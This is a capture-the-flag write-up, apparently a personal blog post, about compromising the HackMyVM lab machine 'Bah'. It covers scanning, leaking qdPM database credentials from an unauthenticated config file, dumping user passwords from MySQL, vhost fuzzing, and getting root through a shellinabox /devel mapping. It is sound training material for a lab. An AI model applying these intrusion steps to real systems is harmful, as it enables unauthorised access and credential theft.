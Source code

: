 ```yaml
---
layout: post
author: canarinho
title:  "Bah"
date:   2022-01-01 09:32:26 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Bah)

## Scanning and Fuzzing

{% highlight text  %}
Starting Nmap 7.92 ( <https://nmap.org> ) at 2021-12-27 15:56 -03
Nmap scan report for bah (192.168.15.95)
Host is up (0.0027s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
|_http-title: qdPM | Login
|_http-server-header: nginx/1.18.0
3306/tcp open  mysql   MySQL 5.5.5-10.5.11-MariaDB-1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.5.11-MariaDB-1
|   Thread ID: 34
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, LongColumnFlag, SupportsCompression, Speaks41ProtocolOld, SupportsTransactions, SupportsLoadDataLocal, IgnoreSigpipes, DontAllowDatabaseTableColumn, InteractiveClient, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, FoundRows, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: ,TFAQU8V)eDcGwC&4sh0
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:3C:48:35 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds
{% endhighlight  %}

{% highlight bash  %}
ffuf -u <http://192.168.15.95/FUZZ> -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30 -e .txt,.js,.sql,.php
	index.php               [Status: 200, Size: 5664, Words: 569, Lines: 146]
	readme.txt              [Status: 200, Size: 470, Words: 60, Lines: 13]
	check.php               [Status: 200, Size: 0, Words: 1, Lines: 1]
	robots.txt              [Status: 200, Size: 26, Words: 2, Lines: 3]
{% endhighlight  %}

Checking `http://192.168.15.95/readme.txt`

{% highlight text  %}
qdPM
open source project management software written in symfony framework
<http://qdpm.net>

INSTALLATION
qdPM is web-based application and it means you have to have web-server.
Simply go to your qdPM web directory and use installer

SUPPORT
Contact me (support@qdpm.net) if you have any questions, suggestions or feedback about qdPM.
My name is Sergey. I always reply to emails within 24-48 hours.

Thanks for downloading and using qdPM open-source solution!
{% endhighlight  %}

## Getting User

`searchsploit -m php/webapps/50176.txt`

The password is storaged on a unauthenticated file, easy to download.

{% highlight bash  %}
curl <http://192.168.15.95/core/config/databases.yml>

	all:
	  doctrine:
	    class: sfDoctrineDatabase
	    param:
	      dsn: 'mysql:dbname=qpm;host=localhost'
	      profiler: false
	      username: qpmadmin
	      password: "<?php echo urlencode('qpmpazzw') ; ?>"
	      attributes:
	        quote_identifier: true

{% endhighlight  %}

So, we got the qpmadmin creds.

{% highlight text  %}
qpmadmin:qpmpazzw
{% endhighlight  %}

Using them to access the mysql server, we got some vhosts and users.

{% highlight sql  %}
use hidden;
select *  from url;
+----+-------------------------+
| id | url                     |
+----+-------------------------+
|  1 | [http://portal.bah.hmv](http://portal.bah.hmv/)   |
|  2 | [http://imagine.bah.hmv](http://imagine.bah.hmv/)  |
|  3 | [http://ssh.bah.hmv](http://ssh.bah.hmv/)      |
|  4 | [http://dev.bah.hmv](http://dev.bah.hmv/)      |
|  5 | [http://party.bah.hmv](http://party.bah.hmv/)    |
|  6 | [http://ass.bah.hmv](http://ass.bah.hmv/)      |
|  7 | [http://here.bah.hmv](http://here.bah.hmv/)     |
|  8 | [http://hackme.bah.hmv](http://hackme.bah.hmv/)   |
|  9 | [http://telnet.bah.hmv](http://telnet.bah.hmv/)   |
| 10 | [http://console.bah.hmv](http://console.bah.hmv/)  |
| 11 | [http://tmux.bah.hmv](http://tmux.bah.hmv/)     |
| 12 | [http://dark.bah.hmv](http://dark.bah.hmv/)     |
| 13 | [http://terminal.bah.hmv](http://terminal.bah.hmv/) |
+----+-------------------------+

select * from users;
+----+---------+---------------------+
| id | user    | password            |
+----+---------+---------------------+
|  1 | jwick   | Ihaveafuckingpencil |
|  2 | rocio   | Ihaveaflower        |
|  3 | luna    | Ihavealover         |
|  4 | ellie   | Ihaveapassword      |
|  5 | camila  | Ihaveacar           |
|  6 | mia     | IhaveNOTHING        |
|  7 | noa     | Ihaveflow           |
|  8 | nova    | Ihavevodka          |
|  9 | violeta | Ihaveroot           |
+----+---------+---------------------+
{% endhighlight  %}

In order to figure out which vhost is the right one, lets fuzzing.

{% highlight bash  %}
ffuf -u <http://192.168.15.95/> -c -w urls.txt -t 30 -H "host: FUZZ"

	party.bah.hmv           [Status: 200, Size: 5216, Words: 1247, Lines: 124]
	ssh.bah.hmv             [Status: 200, Size: 5651, Words: 569, Lines: 146]
	imagine.bah.hmv         [Status: 200, Size: 5659, Words: 569, Lines: 146]
	telnet.bah.hmv          [Status: 200, Size: 5657, Words: 569, Lines: 146]
	ass.bah.hmv             [Status: 200, Size: 5651, Words: 569, Lines: 146]
	console.bah.hmv         [Status: 200, Size: 5659, Words: 569, Lines: 146]
	terminal.bah.hmv        [Status: 200, Size: 5661, Words: 569, Lines: 146]
	here.bah.hmv            [Status: 200, Size: 5653, Words: 569, Lines: 146]
	hackme.bah.hmv          [Status: 200, Size: 5657, Words: 569, Lines: 146]
	tmux.bah.hmv            [Status: 200, Size: 5653, Words: 569, Lines: 146]
	dark.bah.hmv            [Status: 200, Size: 5653, Words: 569, Lines: 146]
	dev.bah.hmv             [Status: 200, Size: 5651, Words: 569, Lines: 146]
	portal.bah.hmv          [Status: 200, Size: 5657, Words: 569, Lines: 146]

{% endhighlight  %}

`party.bah.hmv` has more words, so that’s the one.

Try to login using the users that we already got until succeeded.

{% highlight text  %}
rocio:Ihaveaflower ← this is the guy!
{% endhighlight  %}

Reverse shell it, and toplay no hatchofly, thank you!!

{% highlight text  %}
user.txt 	->	HdsaMoiuVdsaeqw
{% endhighlight  %}

## Privesc

Searching for something on process we found the follow:

{% highlight bash  %}
ps aux

shellin+     439  0.0  0.3   7484  3196 ?        Ss   09:40   0:00 /usr/bin/shellinaboxd -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 4200 -u shellinabox -g shellina
shellin+     440  0.0  0.2   7152  2528 ?        S    09:40   0:00 /usr/bin/shellinaboxd -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 4200 -u shellinabox -g shellina
{% endhighlight  %}

Let’s check the cmdline file, using the pid to find on `/proc`

{% highlight text  %}
rocio@bah:~$ cat /proc/439/cmdline
/usr/bin/shellinaboxd-q--background=/var/run/shellinaboxd.pid-c/var/lib/shellinabox-p4200-ushellinabox-gshellinabox--user-cssBlack on White:+/etc/shellinabox/options-enabled/00+Black on White.css,White On Black:-/etc/shellinabox/options-enabled/00_White On Black.css;Color Terminal:+/etc/shellinabox/options-enabled/01+Color Terminal.css,Monochrome:-/etc/shellinabox/options-enabled/01_Monochrome.css--no-beep--disable-ssl--localhost-only-s/:LOGIN-s/devel:root:root:/:/tmp/dev

{% endhighlight  %}

Note that when [`http://party.bah.hmv/devel`](http://party.bah.hmv/devel) is accessed the `/tmp/dev` will be executed.

So, access [`http://party.bah.hmv/devel`](http://party.bah.hmv/devel) and get the root shell. Tchupacky two play no ratchofly. It’s us!!

{% highlight text  %}
root.txt 	->	HMVssssshell323
{% endhighlight  %}

See you!! Bjos!
